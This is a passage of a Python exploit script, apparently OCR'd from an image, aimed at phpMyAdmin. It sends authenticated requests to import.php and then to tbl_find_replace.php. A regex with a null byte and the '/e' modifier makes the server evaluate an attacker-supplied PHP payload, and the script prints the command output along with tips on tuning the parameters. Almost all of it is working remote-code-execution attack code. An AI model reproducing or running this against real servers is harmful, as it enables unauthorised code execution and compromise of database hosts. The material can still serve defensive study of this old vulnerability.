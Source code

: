 ```python
            "sql_query": sql,
            "sql_delimiter": ";",
            "show_query": "0",
            "fk_checks": "0",
            "SQL": "Go",
            "ajax_request": "true",
            "ajax_page_request": "true",
        }
        resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
        if resp.status_code == 200:
            if "success" in resp.json():
                if resp.json()["success"] is False:
                    first = resp.json()["error"][resp.json()["error"].find("<code>")+6:]
                    error = first[:first.find("</code>")]
                    if "already exists" in error:
                        print(error)
                    else:
                        print("ERROR: " + error)
                        sys.exit(1)
    # build exploit
    exploit = {
        "db": db,
        "table": table,
        "token": token,
        "goto": "sql.php",
        "find": "0/e\0",
        "replaceWith": payload,
        "columnIndex": "0",
        "useRegex": "on",
        "submit": "Go",
        "ajax_request": "true"
    }
    resp = s.post(
        url_to_pma + "/tbl_find_replace.php", exploit, cookies=requests.utils.dict_from_cookiejar(s.cookies)
    )
    if resp.status_code == 200:
        result = resp.json()["message"][resp.json()["message"].find("</a>")+8:]
        if len(result):
            print("result: " + result)
            sys.exit(0)
        print(
            "Exploit failed!\n"
            "Try to manually set exploit parameters like --table, --database and --token.\n"
            "Remember that servers with PHP version greater than 5.4.6"
            " is not exploitable, because of warning about null byte in regexp"
        )
        sys.exit(1)
```
